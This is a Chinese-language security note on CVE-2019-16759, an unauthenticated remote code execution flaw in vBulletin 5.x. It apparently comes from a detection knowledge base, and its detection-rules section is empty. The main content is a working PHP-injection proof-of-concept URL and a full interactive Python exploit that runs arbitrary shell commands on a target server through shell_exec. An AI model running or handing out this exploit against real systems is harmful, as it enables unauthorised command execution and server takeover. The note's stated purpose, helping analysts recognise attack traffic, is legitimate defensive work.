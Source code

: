 <https://github.com/jas502n/CVE-2019-16759>

### 检测日志

访问日志 OR HTTP.log

### 测试复现

POC1

```yml
http://IP/?routestring=ajax%2Frender%2Fwidget_php&widgetConfig[code]=phpinfo();exit;
```

POC2:CVE-2019-16759 vBulletin 5.x 未授权远程代码执行漏洞

```python
import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```

### 测试留痕

暂无，但可查看攻击报文样例辅助安全人员研判是否为攻击行为，较简单的场景。

![r1F46e.jpg](https://s3.ax1x.com/2020/12/16/r1F46e.jpg)](https://imgchr.com/i/r1F46e)

### 检测规则/思路
